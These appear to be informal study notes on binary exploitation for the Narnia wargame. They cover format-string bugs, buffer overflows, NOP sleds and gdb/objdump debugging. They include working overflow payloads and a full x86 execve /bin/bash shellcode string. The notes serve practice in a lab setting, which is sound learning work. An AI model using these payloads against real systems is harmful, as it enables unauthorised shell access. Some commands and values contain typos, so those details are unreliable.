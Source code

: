 # Reverse engineering(pwn) : 
## basic
		--> Analyzing the source code
		--> ltrace : will run file in binary until it exits
		--> value not address : 0x41414141--> AAAA | 0x42424242 --> BBBB|  0x90c90c90c --> \x90
		--> GOT (Global offset table) 
		--> PLT (procedure Linkage Table) 
##  Format string bug : 
		--> %x : reads and print the value from the current buffer pointer
		--> %n : --> reads the value stored in the current buffer pointer 
			 --> write to that memory location the number of characters already printed
		--> %s: To specify strings
		--> %d: To specify integers
		--> %f: To specify floats
		--> %u: To specify unsigned integers
		--> %p: To specify pointers
		--> %x: To print the hex value
		
##  buffer overflow
		--> Low Memory Addresses (0x0000) --> HIgh Memory Addressees(0xFFFF)
		--> to change higer memory
			--> as function --24byte | long(8 byte) -- char(20 byte) 
				--> full in char first then can go to long 
				
		--> echo -e(escape) "AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde" have to reverse (0xdeadbeddf)
		--> (echo -e "AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde"; cat;) |./narnia0
			--> create a command group ( command 1 ; command 2; )
			--> add cat to keeps the command shell open //system(“/bin/sh”)
		--> test :r $(python3 -d 'print("A")*300')
		--> check shell-code bytes in size : 
			--> /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300 (300 number of byte)
			--> r $(python3 -c 'print("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")')
			--> /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x41386941
		
		 --> NOP sled :	
			--> use NOP sled(\x90) replace shell-code bytes + EIP bytes
			--> NOP sled is used to direct the CPU’s instruction execution flow to a desired destination
			--> as r $(python3 -c 'print("A"*132+"B"*4)') :  
				--> 132 - shell code byte (33) --> 99 // eip : Ox42424242 (BBBB)
			
		--> bug : 0x90c290c2 -- python3 UTF error --> shuold be 0x90909090
			--> 'import sys; sys.stdout.buffer.write(b"A")'
			--> r $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x90"*99 + b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" +b"\x70\xd7\xff\xff")')
			
			
##  Environment variable (Env-Variable)  :
		--> expecting the environment variable (global) EGG to contain data
			--> export EGG=cd
			--> echo $EGG
			---> export EGG=`perl -e 'print "\x31...\x80"'`
		
## Shellcode: 
		--> resource : 
			--> http://shell-storm.org/shellcode/index.html
				--> uname -a  --> for OS so any x86 or x86_64 
			
			--> https://github.com/7feilee/shellcode/tree/master/Linux/x86 
				-->https://github.com/7feilee/shellcode/blob/master/Linux/x86/execve(-bin-bash%2C_%5B-bin-sh%2C_-p%5D%2C_NULL).c
		***work		--> \x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80
				--> export EGG=$(echo -e "\x6a..\x80")
				
		--> couter shellcode byte :
				--> delecte indent : sed -i 's/^[[:space:]]*//g' shellcode
				--> ./shellcode_byte_counter.sh SHELLCODE_FILE

				
## Segmentation fault :
		--> gbd  :  debug the binary 
			--> gdb ./narnia1

			--> disassemble main // disassemble vuln(function name)
				--> print out the memory addresses and assembly code
				--> for everything happening in the main() function 
			--> run // run program
			--> set breakpoint : break  *0x080491e1 
				--> 25 values that set for the eax registe :  x/25x $eax  
					--> convert value from hex to ascii
				--> c : Continuie
			--> info registers : show registers --> eip 

			--> Stack Pointer (ESP)  : x/300wx $esp
				--> filled with \x90 --> find a address which 0x90909090
			--> p system : -->find a address than use system() function 
		
			
			--> esp vs eap vs eip
			
## objdump
			--> USEAGE : 
				--> listing headers for an executable
				--> disassembling an executable  
				--> display debug information.
			--> objdump -d -M intel /narnia/narnia3
				 -d  (disassemble the binary) -M (set our disassembly flavor to  intel )
			--> <main> function :
				--> DWORD PTR [ebp-0x18],0x7665642f
		











